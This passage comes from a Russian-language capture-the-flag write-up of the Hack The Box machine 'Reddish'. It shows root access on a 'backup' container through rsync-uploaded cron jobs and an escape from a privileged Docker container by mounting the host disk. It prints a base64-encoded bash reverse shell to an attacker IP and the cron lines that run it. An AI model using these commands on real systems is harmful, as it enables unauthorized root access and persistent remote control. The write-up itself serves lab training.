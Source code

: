 ```
root@www:/tmp# echo '* * * * * root bash /tmp/shell.sh' > shell
```

Заливаем оба файла на `backup` с помощью `rsync`.

```
root@www:/tmp# rsync -a shell.sh rsync://backup:873/src/tmp/
root@www:/tmp# rsync -a shell rsync://backup:873/src/etc/cron.d/
```

И через мгновение нам приходит коннект на 3333-й порт Kali.

![backup-root-shell.png](/assets/images/htb/machines/reddish/backup-root-shell.png)
{:.center-image}

# Финальный захват хоста Reddish

Прогулявшись по файловой системе `backup`, можно увидеть такую картину.

![backup-dev-sda.png](/assets/images/htb/machines/reddish/backup-dev-sda.png)
{:.center-image}

В директории `/dev` оставлен доступ ко всем накопителям хостовой ОС. Это означает, что на Reddish этот контейнер был запущен с флагом [--privileged](https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities). Это наделяет докер-процесс практически всеми полномочиями, которые есть у основного хоста.

Интересная презентация по аудиту докер-контейнеров: [Hacking Docker the Easy way](https://www.slideshare.net/BorgHan/hacking-docker-the-easy-way).

Если мы смонтируем, к примеру, `/dev/sda1`, то сможем совершить побег в файловую систему Reddish.

![backup-mount-sda1.png](/assets/images/htb/machines/reddish/backup-mount-sda1.png)
{:.center-image}

Шелл можно получить тем же способом, каким мы попали в контейнер `backup`: создадим cronjob и дропнем его в `/dev/sda1/etc/cron.d/`.

```
root@backup:/tmp/sda1/etc/cron.d# echo 'YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOS85OTk5IDA+JjEnCg==' | base64 -d > /tmp/sda1/tmp/shell.sh
root@backup:/tmp/sda1/etc/cron.d# cat ../../tmp/shell.sh
bash -c 'bash -i >& /dev/tcp/10.10.14.19/9999 0>&1'
root@backup:/tmp/sda1/etc/cron.d# echo '* * * * * root bash /tmp/shell.sh' > shell
```

И теперь отклик реверс-шелла придет уже человеческим образом — через реальную сеть `10.10.0.0/16` (а не через дебри виртуальных интерфейсов докера) на порт `9999` ВМ Kali.

![reddish-root-shell.png](/assets/images/htb/machines/reddish/reddish-root-shell.png)
{:.center-image}

Если вызвать `ip addr`, можно видеть нагромождение сетей docker.

![reddish-ip-addr.png](/assets/images/htb/machines/reddish/reddish-ip-addr.png)
{:.center-image}

